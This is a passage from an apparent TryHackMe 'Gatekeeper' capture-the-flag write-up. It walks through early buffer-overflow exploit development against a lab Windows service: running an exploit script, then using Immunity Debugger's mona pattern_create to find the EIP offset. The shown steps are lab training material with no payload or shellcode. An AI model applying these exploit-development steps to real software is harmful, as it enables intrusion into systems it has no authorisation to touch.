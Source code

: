 When we run this exploit, we'll see:

**Kali:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

**Windows:**
```
Received connection from remote host.
Connection handed off to handler thread.
Bytes received: 14
Bytes sent: 23
Client disconnected.
```

> Make sure it has the `Bytes sent` output, otherwise it won't trigger the buffer overflow vulnerability.

**We sucessfully connected to the debugging machine to sent 14 bytes, and the process sent us 23 bytes.**

- Then, we now need to find the EIP offset:

**To do so, I'll use mona's `pattern_create` to create a pattern:** (If you don't have mona installed in Immunity Debugger, press [this](https://github.com/corelan/mona) to download mona from their GitHub repository.)

**First, let's configure working folder:**
```
!mona config -set workingfolder c:\mona%p
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a7.png)

**Then, use `pattern_create` to create pattern:**
```
!mona pattern_create 1000
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Gatekeeper/images/a8.png)

**Copy those pattern and  change the `payload` variable to the generated pattern:**
```py
payload = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7[...]'
```

**Run the exploit again:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```
